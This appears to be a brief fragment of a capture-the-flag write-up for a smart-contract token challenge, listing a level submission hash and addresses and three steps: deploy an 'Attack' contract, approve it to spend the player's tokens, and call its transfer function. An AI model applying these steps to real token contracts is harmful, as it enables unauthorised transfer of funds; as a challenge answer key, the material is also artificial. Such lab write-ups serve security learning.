

```
Submit level txnHash: 0x8c25e84794e2cd30bc783e74396ef02a89771d984f90a84d95d59fb7d41f4153
Instance address: 0xc7cB627D4b45E7182Bf26193f5871a7A83B85b72
Level address: 0x00200f9AeBA83B4bddddd7620569C15AC09663cc
```

// 1.First we need to create a contract named `Attack`
// 2.we should approve to to other contract to transfer our tokens.
```javascript
token.approve(address(attack), token.balanceOf(msg.sender));
```
// 3.we should call `transferFrom` function:
```javascript
attack.transfer();

```

